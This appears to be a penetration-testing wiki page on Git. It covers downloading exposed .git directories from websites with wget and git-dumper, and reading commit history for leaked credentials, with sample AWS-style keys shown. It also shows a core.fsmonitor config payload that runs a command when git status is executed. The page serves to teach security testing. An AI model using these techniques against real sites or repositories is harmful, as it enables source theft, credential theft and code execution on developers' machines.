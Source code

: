 ```yaml
---
description: >-
  A version control system often saving lots of information about how files were
  changes
---
```


# Git

## Description

Git is a version control system that allows you to save the state of files. It is often used with source code and published on [Github](https://github.com/). There are a few keywords that Git uses you need to know to understand the terminology:

* **Repositories**: The entirety of your git system, with the files, history, and information. Can be created using `git init`
* **Commits**: "Save states" of the files in your repository. Whenever you change something and you are happy with the change, you can commit it so it's saved as a snapshot that you can later go back to. Can be created using `git commit -m "message"`
* **Branches**: Parallel to your main repository, branches are sidesteps to slowly work on a new feature for example, and then later in time **merge** it into the main branch. Can be created using `git checkout -b newfeature`

All the information about your Git repository gets saved in a `.git` directory that is at the root of your repository. The `git` command interacts with this directory and lots of tools can get information from it. So if you ever find a `.git` directory you'll know the current directory is a Git repository.&#x20;

To find everything in a repository without having to think of every command, you can use a tool like [GitKraken](https://www.gitkraken.com/) to explore the repository visually. Just open the directory in that tool and you can see a timeline of what commits and branches were made.&#x20;

## Finding Git on websites

In some cases, you'll find that the website you're testing uses Git by finding a `.git` directory. Normally this should be hidden by a 403 Forbidden for example, but this is not always the case. Sometimes you can see a list of files, or you can directly access `.git/HEAD` instead.&#x20;

### Web - Directory Listing

When you visit the `.git` directory on the website, and you can see a list of files relating to git, you know that directory listing is on. This makes it really easy to download everything at once recursively and then examine the repository on your own machine.&#x20;

```shell-session
$ wget -r http://example.com/.git
```

#### Git-dumper

When a website disables directory listing, but the `.git` directory can still be found with something like `.git/HEAD`, you might be able to use [git-dumper](https://github.com/arthaud/git-dumper) on it to extract all the files without having the need for directory listing. This tool understands the Git file structure and can find all the related files:

{% embed url="https://github.com/arthaud/git-dumper" %}
A tool to dump a git repository to your local machine, without needing directory listing
{% endembed %}

```shell-session
$ pip install git-dumper
$ git-dumper http://example.com/.git git/
```

Then use the source code to perform more targeted attacks, or look for secrets, even in history:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git log -p  # Show commits with diffs
</strong>...
+++ b/secret.py
@@ -0,0 +1,85 @@
+access_key_id = "AKIA6CFMOGSLALOPETMB"
+secret_access_key = "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"
+region = "us-east-2"
...
<strong>$ git branch -a  # List all branches
</strong>* master
  secret
</code></pre>

## Attacking Git Commands (RCE)

Git is a very flexible system, allowing many settings to be changed to decide how CLI tools interact with the repository. These configuration variables can allow executing arbitrary commands however when certain git commands are executed. Similar to [#git-hooks](../linux/linux-privilege-escalation/known-services.md#git-hooks "mention"), the `core.fsmonitor` variable in `.git/config` is a common one that can be set to a bash command to execute:

{% code title=".git/config" %}
```diff
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
+       fsmonitor = "id | tee /tmp/pwned > /dev/tty"
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ git status
</strong>uid=1001(user) gid=1001(user) groups=1001(user)
...
</code></pre>

Many shell extensions like [Starship](https://github.com/starship/starship/issues/3974) use `git` to get the current repository and are vulnerable to this, as well as [Visual Studio Code](https://www.sonarsource.com/blog/securing-developer-tools-git-integrations/#example-of-affected-ide-visual-studio-code) (now only with Trusted Mode). To find such issues, you can create a malicious repository with as many landmines as possible that trigger on different commands. This creates an empty repository with most known ways to execute commands:

{% embed url="https://github.com/jwilk/git-landmine" %}
Create a repository with `.git/config` and `hooks` GIT landmines (`lib/payload` = payload)
{% endembed %}

## Git Snippets

If you're running a git repository, you might need some complicated actions from time to time. This is a collection of some common actions as commands to quickly copy and paste.&#x20;

{% code title="Push to remote origin" %}
```shell-session
$ git remote add origin https://github.com/[username]/[repository].git
$ git branch -M main  # Switch to main branch for GitHub
$ git push --set-upstream origin main  # Set the default upstream

$ git push  # From now on, you can just push
```
{% endcode %}

{% code title="Reset all commits" %}
```shell-session
$ rm -rf .git
$ git init
$ git commit -m "Initial commit"
$ git push --force  # Force to overwrite existing remote
```
{% endcode %}

{% code title="Undo last commit" %}
```shell-session
# # If not pushed yet
$ git reset --soft HEAD~
# # If already pushed
$ git reset HEAD~  # Use --hard to also throw away the changes in the commit
$ git push --force
```
{% endcode %}

{% code title="Create and push tag" %}
```shell-session
$ git tag 0.1.0
$ git push origin --tags  # Push all tags
# # More info: https://stackoverflow.com/a/18223354/10508498
```
{% endcode %}
